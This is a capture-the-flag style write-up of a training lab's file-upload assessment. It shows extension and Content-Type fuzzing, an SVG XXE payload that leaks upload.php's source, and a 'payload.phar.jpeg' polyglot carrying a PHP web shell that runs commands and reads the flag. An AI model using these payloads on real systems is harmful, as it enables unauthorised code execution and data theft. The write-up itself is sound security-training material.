## Scenario

> You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.
> 
> Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

Access via: `154.57.164.81:43589`

## Exercises

### Question 1 — Try to exploit the upload form to read the flag found at the root directory "/".

Refreshed the target, landing on a new address: `154.57.164.83:38972`.

Landed on the Academy Shop homepage. Every nav link was inert except **Contact Us**, which held the only upload form on the site — a feedback form with name, email, message, and a "screenshot" file attachment.





Checked the page source first. The form posts to `/contact/submit.php`, but a separate AJAX call in `script.js` handles the actual file upload against a different endpoint:





```javascript
function checkFile(File) {
  var file = File.files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();

  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#upload_message').text("Only images are allowed");
    File.form.reset();
  } else {
    $("#inputGroupFile01").text(filename);
  }
}

$(document).ready(function () {
  $("#upload").click(function (event) {
    event.preventDefault();
    var fd = new FormData();
    var files = $('#uploadFile')[0].files[0];
    fd.append('uploadFile', files);

    if (!files) {
      $('#upload_message').text("Please select a file");
    } else {
      $.ajax({
        url: '/contact/upload.php',
        type: 'post',
        data: fd,
        contentType: false,
        processData: false,
        success: function (response) {
          if (response.trim() != '') {
            $("#upload_message").html(response);
          } else {
            window.location.reload();
          }
        },
      });
    }
  });
});
```

Hypothesis: the actual upload target is `/contact/upload.php`, and the client-side `checkFile` function only checks the **last** extension against a short whitelist (`jpg`/`jpeg`/`png`), with no apparent handling of double extensions — suggesting a reverse double extension might work if the back-end validation turns out to be similarly naive.

#### Fuzzing for the Back-End Extension Filter

Turned on FoxyProxy and Burp Intercept, uploaded a valid `cat.jpg`, and captured the resulting `POST /contact/upload.php` request.





Sent the request to Intruder, set the payload position on the extension in `filename="cat§.jpg§"`, loaded the same SecLists web-extensions wordlist used in earlier sections, and unticked URL-encoding.



Every extension returned either **Only images are allowed** or, for PHP-related ones, **Extension not allowed** — except `.pht` and `.phar`, which weren't caught by whichever check was blocking the rest of the PHP variants.

Hypothesis: a blacklist is catching most PHP-executable extensions, but `.phar` (and `.pht`) pass through it, similar to the earlier module sections.

#### Fuzzing Content-Type

Started a parallel scan for allowed Content-Type values, filtering SecLists' content-types wordlist down to image types:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat /usr/share/wordlists/seclists/Discovery/Web-Content/web-all-content-types.txt | grep 'image/' >> image-ct-wordlist.txt 
```

**Breakdown:**

- `cat /usr/share/wordlists/seclists/Discovery/Web-Content/web-all-content-types.txt` outputs the full SecLists Content-Type wordlist
- `| grep 'image/'` filters that output down to lines containing `image/`
- `>> image-ct-wordlist.txt` appends the filtered results to a new wordlist file

 `image/svg+xml` is accepted. 
 


#### Reading the Upload Script's Source via XXE

Built an SVG payload using the base64-encode PHP filter wrapper, targeting `upload.php` directly (since that was the confirmed real upload handler) rather than `index.php`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nano payload.svg                                     

┌──(—REDACTED—㉿kali)-[~]
└─$ cat payload.svg
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>

┌──(—REDACTED—㉿kali)-[~]
└─$ mv payload.svg payload.jpeg
```

Renamed the file to a `.jpeg` extension to get past the client-side check, uploaded it, and captured the request.





Forwarded the request and received a `<svg>` element containing a base64 blob in the response — confirming the extension (`.jpeg`, ending the filename) and Content-Type (`image/jpeg`) both satisfied the server's checks despite the file's actual XML/SVG content.



Decoded the blob:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ echo PD9waHAKcmVxdWlyZV9vbmNlKCcuL2NvbW1vbi1mdW5jdGlvbnMucGhwJyk7—SNIP—| base64 -d
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```

Confirmed, from the real source:

- **Uploads directory:** `./user_feedback_submissions/`, relative to `/contact/`.
- **Stored filename scheme:** `date('ymd') . '_' . basename(...)` — the upload date in `YYMMDD` format, an underscore, then the original filename exactly as submitted.
- **Blacklist:** `/.+\.ph(p|ps|tml)/` — matches `.php`, `.phps`, `.phtml` anywhere in the filename, explaining why those were blocked outright, and why `.phar` and `.pht` weren't caught by it.
- **Whitelist:** `/^.+\.[a-z]{2,3}g$/` — requires the filename to end in 2–3 lowercase letters followed by `g`, which matches `jpg`, `png`, `jpeg`... and also `svg`, explaining why the SVG payload passed as `payload.jpeg` and would also have passed natively as `payload.svg`.
- **Type test:** checks both the Content-Type header and the detected MIME type against `/image\/[a-z]{2,3}g/`, the same letters-plus-`g` pattern, which `image/svg+xml` and `image/jpeg` both satisfy.
- **Size test:** rejects files over 500,000 bytes.

Confirmed: `.phar` passes the blacklist (not matched by `ph(p|ps|tml)`), and a filename ending in `...g` (such as `...phar.jpeg`) satisfies the whitelist's `$`-anchored check — the same reverse double extension gap exploited earlier in the module.

#### Building the Combined Payload

Combined the working XXE SVG structure with the PHP web shell payload in one file, keeping the filename ending in an allowed extension while embedding `.phar` earlier in the name to trigger server-side PHP execution:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ nano payload.phar.jpeg           

┌──(—REDACTED—㉿kali)-[~]
└─$ cat payload.phar.jpeg 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
<?php system($_REQUEST['cmd']); ?>

┌──(—REDACTED—㉿kali)-[~]
└─$ file payload.phar.jpeg
payload.phar.jpeg: SVG Scalable Vector Graphics image
```

Confirmed the file still identifies as valid SVG despite the appended PHP code, satisfying the content/MIME checks while carrying the web shell payload.

Uploaded `payload.phar.jpeg`, intercepted the request, and forwarded it through Repeater after modifying the Content-Type (you probably didn't need to), which returned a successful upload.





#### Locating and Executing the Shell

Per the source code, the stored filename would be `date('ymd')` (09 Nov 2026 → `261109`) followed by `_` and the original filename, giving:

```txt
261109_payload.phar.jpeg
```

Requested the file directly with a test command:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.83:38972/contact/user_feedback_submissions/261109_payload.phar.jpeg?cmd=id' 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmed: code execution achieved as `www-data`. The SVG/XXE declaration lines print as plain text ahead of the command output, since they're outside the `<?php ?>` block.

#### Locating and Reading the Flag

The question asked for a flag at the root directory with no exact filename given, so listed `/` directly rather than guessing a name:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.83:38972/contact/user_feedback_submissions/261109_payload.phar.jpeg?cmd=ls+/'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Found the flag's exact filename, `flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt`, and read it:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl -s 'http://154.57.164.83:38972/contact/user_feedback_submissions/261109_payload.phar.jpeg?cmd=cat+/flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
—REDACTED—
```

**Answer:** `—REDACTED—`